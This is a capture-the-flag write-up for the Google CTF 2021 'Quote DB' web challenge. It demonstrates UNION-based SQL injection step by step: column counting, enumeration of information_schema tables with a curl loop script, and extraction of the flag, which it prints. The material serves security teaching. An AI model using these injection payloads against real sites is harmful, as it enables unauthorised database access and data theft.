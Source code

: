 # Challenge #14 - Quote DB

Category: `web`

## Story

>You don’t manage to disarm the guard, he is quicker than you are. He knocks you out, and when you wake up you’re inside a prison cell, but it doesn’t seem like you’re on a boat anymore, you must be inside the headquarters on the secret island! The cell is claustrophobic, with rusty iron bars and a bed of concrete.<br/><br/>
>In this challenge, you have to find the hidden flag. Good luck!

## Solution

This challenge comes with a URL: https://quotedb-web.2021.ctfcompetition.com/

Let's visit it and see what we're dealing with.

![The Quote DB homepage](quotedb_homepage.png)

There's practically nothing going on here. There's a quote and an author. There's no way to enter new quotes. Trying various subpages like "/admin" or "/add_quote" and variations also turns up nothing. There's no JavaScript, either included or embedded in the page source.

One cool thing you can do is use a website or extension like [BuiltWith](https://builtwith.com/) or [Wappalyzer](https://www.wappalyzer.com/) to profile the website and see what technologies it's using. In this case though, all we find is that the website uses Ubuntu, Apache, GCP and some kind of CDN. No hint on whether there's a database or what kind if so.

### Looking for SQL injection

The only piece of interactivity is this:

```
If you'd like to return to this quote, just click here.
```

That shows us that the page supports an `id` parameter, like `/?id=2`. Maybe this can be exploited for [SQL injection](https://portswigger.net/web-security/sql-injection)?

Let's try a few things:

```
/?id=-1
Quote not found

/?id=1023821083902112038013122103810923821
Quote not found
```

No integer mis-parsing yet.

```
/?id=abcdefg
```

This is different. It responds with HTTP status 500 and an empty body. Maybe the id isn't properly escaped after all.

```
/?id=' OR 1=1
```

Same. Empty response and HTTP status 500. But no database dump, sadly.

```
/?id=1--
"If you want total security, go to prison. There you're fed, clothed, given medical care and so on. The only thing lacking... is freedom." - Dwight D. Eisenhower
```

Strangely, this appears to work, and returns quote 1.

What about this? *(I just guessed that the table is called "quotes")*

```
/?id=1 UNION SELECT * FROM quotes
If you want total security, go to prison. There you're fed, clothed, given medical care and so on. The only thing lacking... is freedom." - Dwight D. Eisenhower
```

Oh! This isn't sanitized away! However, it returns the first quote, presumably because it selects the top result from the query. Let's verify this by using a nonexistent quote id but still selecting from the `quotes` table:

```
/?id=77 UNION SELECT * FROM quotes
"If you want total security, go to prison. There you're fed, clothed, given medical care and so on. The only thing lacking... is freedom." - Dwight D. Eisenhower
```

It works! It returns the first quote, presumably because the main query was something like this

```sql
SELECT *
FROM quotes
WHERE id = <id>
```

And we turned it into

```sql
SELECT *
FROM quotes
WHERE id = 77 UNION SELECT * FROM quotes
```

### Looking for the flag

Now what? We can already look up any row in the `quotes` table. Enumerating it doesn't find anything.

Maybe the flag is in another table. But how do we find out what tables are out there?

It's [possible](https://www.sqltutorial.org/sql-list-all-tables/) in some engines to directly query metadata tables. We don't know exactly what DB this website is using, but let's try a few known metadata table names.

Before we do so though, we need to determine how many columns are in the quotes database. We can't just `SELECT *` from arbitrary tables or the `UNION` would fail as it can't match up the rows. This is pretty simple to do though - just try selecting static values and increasing the number until we get a success.

```
/?id=77 UNION SELECT 1
HTTP Status 500

/?id=77 UNION SELECT 1,2
HTTP Status 500

/?id=77 UNION SELECT 1,2,3
HTTP Status 200
```

That was quick. There are 3 columns, probably the id, quote and author.

Next, let's look for the existence of metadata tables:

```
/?id=77 UNION SELECT 1,2,3 FROM user_tables
HTTP Status 500

/?id=77 UNION SELECT 1,2,3 FROM dba_tables
HTTP Status 500

/?id=77 UNION SELECT 1,2,3 FROM all_tables
HTTP Status 500

/?id=77 UNION SELECT 1,2,3 FROM information_schema.tables
HTTP Status 200
```

Interesting! That tells us we're dealing with [MySQL](https://www.mysql.com/). Now let's try to select some rows from it. You can Google and find [the docs](https://dev.mysql.com/doc/mysql-infoschema-excerpt/8.0/en/information-schema-tables-table.html) which describe the available columns.

```
/?id=77 UNION SELECT TABLE_CATALOG,TABLE_NAME,TABLE_TYPE FROM information_schema.tables
"ALL_PLUGINS" - SYSTEM VIEW
```

Okay, not too helpful. We only get the top row so we need some way of selecting a specific row.

Googling "mysql select specific row" leads to [this StackOverflow answer](https://stackoverflow.com/a/10457494) which explains that the `LIMIT` clause allows specifying an offset. Let's try it.

```
/?id=77 UNION SELECT TABLE_CATALOG,TABLE_NAME,TABLE_TYPE FROM information_schema.tables LIMIT 2,1
"CHARACTER_SETS" - SYSTEM VIEW

/?id=77 UNION SELECT TABLE_CATALOG,TABLE_NAME,TABLE_TYPE FROM information_schema.tables LIMIT 3,1
"CHECK_CONSTRAINTS" - SYSTEM VIEW
```

Cool! It works! Let's quickly enumerate all the tables (see [enumerate_tables.sh](enumerate_tables.sh)):

```sh
#!/usr/bin/env bash

for i in {1..1000}; do
  curl -s 'https://quotedb-web.2021.ctfcompetition.com/?id=77%20UNION%20SELECT%20TABLE_CATALOG,TABLE_NAME,TABLE_TYPE%20FROM%20information_schema.tables%20LIMIT%20'${i}',1' | grep '    "' | grep -o '".*"'
done
```

This takes a while, but it eventually finds us two key tables:

```sh
$ ./enumerate_tables.sh
...
"flag"
"quotes"
^C
```

### Extracting the flag

We don't know exactly how many columns are in the `flag` table but let's just try getting them all:

```
/?id=77 UNION SELECT * FROM flag
HTTP Status 500
```

Oops. Let's try adding more columns.

```
/?id=77 UNION SELECT *,0 FROM flag
HTTP Status 200
```

That succeeds and gives us the flag.

```
CTF{little_bobby_tables_we_call_him}
```








